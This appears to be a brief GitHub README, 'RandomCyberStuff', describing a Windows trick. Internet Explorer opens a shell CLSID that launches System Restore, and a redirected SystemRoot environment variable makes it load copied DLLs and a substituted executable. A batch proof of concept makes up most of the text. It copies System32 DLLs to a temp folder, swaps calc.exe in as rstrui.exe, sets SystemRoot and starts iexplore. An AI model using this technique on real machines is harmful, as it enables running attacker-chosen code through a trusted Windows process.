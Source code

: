 # RandomCyberStuff

## IE running code
IE navigating to `shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}` you can spawn System restore. If you modify the `SystemRoot` enviroment variable and copy over DLLs you run them.


POC: 
mkdir %temp%\System32
FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL
set a=C:\Windows\System32\calc.exe
copy %a% %temp%\System32\rstrui.exe /Y > NUL
set SystemRoot=%temp%
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

